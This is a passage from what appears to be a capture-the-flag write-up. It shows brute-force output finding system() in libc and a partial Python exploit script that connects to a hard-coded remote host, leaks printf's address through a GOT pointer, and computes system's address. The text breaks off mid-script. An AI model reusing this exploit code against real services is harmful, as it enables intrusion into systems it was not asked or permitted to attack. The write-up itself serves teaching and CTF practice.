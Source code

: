 ```python
```

It gave a lot of possible addresses, and once I thought I had `system()` but it was the wrong. I chose a reasonble offset to start from (based on libc 2.19) and ran the script. I stumbled upon the following output:

```
...snip...
85
[!] found possible offset for system(): printf-63665
[!] system @ 0x7f4df0086b2f


Please enter your number: dec: 2803784840145881088
hex: 0x26e90b74ff854800

What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit

86
[!] found possible offset for system(): printf-63666
[!] system @ 0x7f4df0086b2e
```

At `printf-63665`, libc indeed has the first few bytes of `system()`. It started with a `00` byte, so I decreased the value by one and plugged that value into a script.


```python
#!/usr/bin/python

import struct, time, re, telnetlib, socket

def p(x):
    return struct.pack("L", x)

# leak printf address in libc via GOT pointer
payload = ""
payload += "2\n"
payload += p(0x601020)  # printf@plt
payload += "\n"

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('188.40.18.73', 3313))

print s.recv(1025)
s.send(payload)
time.sleep(0.5)
data = s.recv(1000)

PRINTF = -1
print data
m = re.search(r'hex: (.*)', data)
if m:
    PRINTF = m.group(1)

print "[+] found printf: %x" % int(PRINTF, 16)
SYSTEM = int(PRINTF, 16) - 63664
print "[+] system at %x" % int(SYSTEM)

# spam system into buf
payload = ""
payload += "1\n"        
```